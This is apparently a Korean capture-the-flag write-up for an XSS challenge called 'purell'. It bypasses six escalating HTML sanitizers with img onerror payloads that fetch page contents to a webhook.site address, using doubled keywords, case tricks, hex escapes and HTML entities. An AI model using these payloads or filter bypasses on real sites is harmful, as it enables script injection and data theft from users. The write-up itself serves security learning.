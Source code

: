 # purell

각 santinze시키는 level들을 통과해서 XSS를 성공시키면 된다.

### 레벨 0

santinze가 없으므로 그냥 XSS 페이로드 주면 된다.

### 레벨 1

`sanitizer: (html) => html.includes('script') || html.length > 150 ? 'nuh-uh' : html`

script단어를 금지하고 150단어 제한이 걸려있는데 img태그를 사용하면 된다.

```
<img src=1 onerror="fetch('https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document.querySelector('.flag').innerText)">
```

### 레벨 2

`sanitizer: (html) => html.includes('script') || html.includes('on') || html.length > 150 ? 'nuh-uh' : html`

추가로 on을 금지한다.

그러나 HTML은 대소문자 구별이 기본적으로 없으므로 On을 사용하면 된다.

```
<img src=1 Onerror="fetch('https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document.querySelector('.flag').innerText)">
```

### 레벨 3

`sanitizer: (html) => html.toLowerCase().replaceAll('script', '').replaceAll('on', '')`

입력이 소문자로 되고 각 문자들을 ''으로 치환하고 있다.

이러면 그냥 `scscriptript` 이렇게 페이로드를 작성하므로 필터링 우회가 가능하다.

그리고 querySelector랑 innerText에서 대문자를 사용하고 있으므로 `[]`을 사용해서 아스키코드료 16진수 이스케이프를 사용하면 된다.

```
<img src=1 oonnerror="fetch('https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document['query\x53elector']('.flag')['inner\x54ext'])">
```

### 레벨 4

```
sanitizer: (html) =>
      html
        .toLowerCase().replaceAll('script', '').replaceAll('on', '')
        .replaceAll('>', '')
```

`>` 문자를 필터링하고 있는데 그냥 > 안써서 안닫으면 끝이다.

```
<img src=1 oonnerror="fetch('https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document['query\x53elector']('.flag')['inner\x54ext'])"
```

### 레벨 5

```
sanitizer: (html) =>
      html
        .toLowerCase().replaceAll('script', '').replaceAll('on', '')
        .replaceAll('>', '')
        .replace(/\s/g, '')
```

공백을 치환하고 있는데 HTML에선 공백을 단순히 `/`를 사용해서 우회 가능하다.

```
<img/oonnerror="fetch('https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document['query\x53elector']('.flag')['inner\x54ext'])"/src=1
```

### 레벨 6

```
sanitizer: (html) =>
        html
        .toLowerCase().replaceAll('script', '').replaceAll('on', '')
        .replaceAll('>', '')
        .replace(/\s/g, '')
        .replace(/[()]/g, '')
```

이젠 괄호도 필터링하고 있다.

요건 HTML 엔티티를 사용해서 `&#x28;` 이런식으로 인코딩 하면 된다.

```
<img/oonnerror="fetch&#x28;'https://webhook.site/c98556af-36a8-467b-a591-28a3156927b0/?'+document['query\x53elector']&#x28;'.flag'&#x29;['inner\x54ext']&#x29;"/src=1
```

해당 레벨들을 전부 클리어 하면 flag조각을 전부 모을 수 있다.

`FLAG : lactf{1_4m_z3_b3s7_x40ss_h4nd_g34m_4cr0ss_411_t1m3_4nd_z_un1v3rs3_1nf3c71ng_3v34y_1}`

